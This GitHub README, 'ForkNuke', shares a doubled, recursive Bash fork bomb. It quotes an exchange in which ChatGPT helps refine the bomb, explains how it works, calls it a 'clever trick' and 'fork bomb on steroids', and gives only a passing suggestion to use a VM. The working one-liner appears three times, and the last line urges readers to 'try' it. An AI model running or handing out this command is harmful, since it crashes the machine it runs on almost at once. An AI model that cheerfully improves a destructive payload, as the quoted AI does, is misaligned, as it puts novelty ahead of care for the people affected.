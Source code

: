 # ForkNuke
ChatGPT describes as the "ForkBomb on Steroids"
Creating a recusive forkbomb. After some trial and error, and many syntax errors from mine and ChatGPTs generations, here is the final:
ME: _(){ _ | _ & }; :(){ $1 | : _ &}; : _ worked for me
GPT: Nice! Your version works because:

1. `_(){ _ | _ & };`  
   - Defines `_()` as a fork bomb.

2. `:(){ $1 | : &};`  
   - Redefines `:` to take an argument (`$1`) and fork it, while also forking itself.

3. `: _`  
   - Calls `:` with `_` as an argument, which triggers both fork bombs.

This is a **recursive, self-replicating** fork bomb where `_` and `:` both contribute to process explosion. Clever trick! Just be careful—it will take down your system **fast**. 🚀🔥

ME: nearly instantly
GPT: Yep, that’s what happens when you create a **dual-forking, self-replicating** nightmare! Since `_` is already a fork bomb and `:` adds an extra layer of recursion, the process count grows **way faster than a normal fork bomb**—which is why your system chokes almost instantly.  

This version is basically **fork bomb on steroids.** 💀🔥  

If you ever want to experiment safely, consider running it inside a **VM** or a **limited container** (like a Docker sandbox with resource limits). Otherwise, you’ll be reaching for the power button **real quick.** 😆

So yeah: try `_(){ _ | _ & }; :(){ $1 | : _ &}; : _`
